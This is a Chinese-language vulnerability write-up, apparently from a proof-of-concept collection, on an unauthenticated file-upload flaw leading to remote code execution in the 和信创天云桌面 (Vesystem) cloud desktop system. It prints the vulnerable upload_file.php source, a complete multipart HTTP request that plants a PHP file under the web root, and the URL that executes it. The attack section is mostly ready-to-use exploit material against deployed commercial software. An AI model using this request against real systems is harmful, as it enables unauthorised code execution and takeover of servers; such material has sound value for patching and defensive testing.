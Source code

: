 # 和信创天云桌面系统 upload_file.php 远程命令执行漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

<a-checkbox checked>和信创天云桌面系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>和信下一代云桌面VENGD</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337842.png)



存在漏洞的文件为 `upload_file.php`

```python
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "<br />";
}
else
{
    echo "_Requst:<br>";
        /*     foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {    
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];
        
        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);
        
        
        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];
                
                
                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }
            
        }else{
            
            //判断文件夹是否存在 ，不存在就新建个
            
            
            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }
        
        
        
        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];
       
       
        if (file_exists($target_path))
        {
            unlink($target_path);
        }
        
        
        $a = 'old_file='.$_FILES["file"]["tmp_name"];
        
        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );
    
    writeLog('new_file2='.$target_path);
    
   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);
    
    writeLog('$varerror='.$varerror);
}
?>
```



发送请求包如下

```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```



访问

```plain
http://xxx.xx.xxx.xxx/Upload/1/test.php
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337610.png)